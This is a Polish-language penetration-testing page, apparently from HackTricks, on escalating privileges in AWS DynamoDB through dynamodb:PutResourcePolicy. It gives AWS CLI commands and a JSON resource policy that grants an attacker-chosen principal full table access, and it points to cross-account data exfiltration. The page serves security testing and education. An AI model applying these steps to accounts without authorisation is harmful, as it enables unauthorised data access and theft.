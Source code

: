 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Aby uzyskać więcej informacji na temat dynamodb, sprawdź:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, a opcjonalnie `dynamodb:GetResourcePolicy`

Od marca 2024 roku AWS oferuje *polityki oparte na zasobach* dla DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Więc, jeśli masz `dynamodb:PutResourcePolicy` dla tabeli, możesz po prostu przyznać sobie lub innemu podmiotowi pełny dostęp do tabeli.

Przyznawanie `dynamodb:PutResourcePolicy` losowemu podmiotowi często zdarza się przypadkowo, jeśli administratorzy myślą, że przyznanie `dynamodb:Put*` pozwoli tylko na dodawanie elementów do bazy danych - lub jeśli przyznali ten zestaw uprawnień przed marcem 2024...

Idealnie, powinieneś również mieć `dynamodb:GetResourcePolicy`, aby nie nadpisywać innych potencjalnie istotnych uprawnień, ale tylko wstrzykiwać dodatkowe uprawnienia, których potrzebujesz:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Jeśli nie możesz pobrać bieżącej polityki, po prostu użyj tej, która przyznaje pełny dostęp do tabeli dla twojego podmiotu:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Jeśli musisz dostosować, oto lista wszystkich możliwych akcji DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). A oto lista wszystkich akcji, które mogą być dozwolone za pomocą polityki opartej na zasobach *ORAZ które z nich mogą być używane między kontami (pomyśl o exfiltracji danych!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Teraz, mając dokument polityki `policy.json` gotowy, wprowadź politykę zasobów:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Teraz powinieneś mieć potrzebne uprawnienia.

### Post Exploitation

Z tego, co wiem, **nie ma innego bezpośredniego sposobu na eskalację uprawnień w AWS tylko poprzez posiadanie pewnych uprawnień do `dynamodb`**. Możesz **czytać wrażliwe** informacje z tabel (które mogą zawierać dane uwierzytelniające AWS) i **zapisywać informacje w tabelach** (co może wywołać inne podatności, takie jak wstrzykiwanie kodu lambda...), ale wszystkie te opcje są już uwzględnione na stronie **DynamoDB Post Exploitation**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Czytaj dane, wykorzystując strumienie danych

{{#include ../../../banners/hacktricks-training.md}}
